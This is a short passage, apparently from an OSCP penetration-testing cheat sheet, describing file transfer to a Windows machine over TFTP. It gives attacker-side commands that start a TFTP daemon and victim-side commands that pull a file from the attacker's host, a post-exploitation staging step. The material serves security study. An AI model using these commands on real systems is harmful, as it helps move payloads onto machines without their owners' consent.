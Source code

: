 
**TFTP** (Installed by default up to Windows XP and 2003, In Windows 7, 2008 and above needs to be explicitly added. For this reason tftp not ideal file transfer protocol in most situations.) [ref](https://github.com/pythonmaster41/Go-For-OSCP)
```powershell
# On attacker machine:

mkdir tftp
atftpd --deamon --port 69 tftp
cp $FILE tftp
# On victim machine shell:
tftp -i $IP GET $FILE
```


[pythonmaster41](https://github.com/pythonmaster41/Go-For-OSCP)